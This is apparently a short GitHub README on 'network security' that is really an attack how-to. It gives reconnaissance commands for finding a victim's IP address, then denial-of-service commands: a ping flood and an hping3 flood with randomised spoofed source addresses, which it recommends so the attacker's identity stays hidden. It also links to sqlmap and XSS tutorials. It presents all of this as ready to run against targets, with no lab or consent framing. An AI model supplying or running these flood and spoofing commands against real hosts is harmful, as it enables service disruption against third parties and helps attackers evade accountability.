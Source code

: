 # Network-Security
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
The first thing to get into network security is to learn how to use nmap. There is a tutorial in this repo for that.
we can use one or more of the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3.
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks.
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
## [nmap tutorial](nmap_tutorial.md)
## [sqlmap tutorial - sql injection](sqlmap.md)
## [XSS scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)
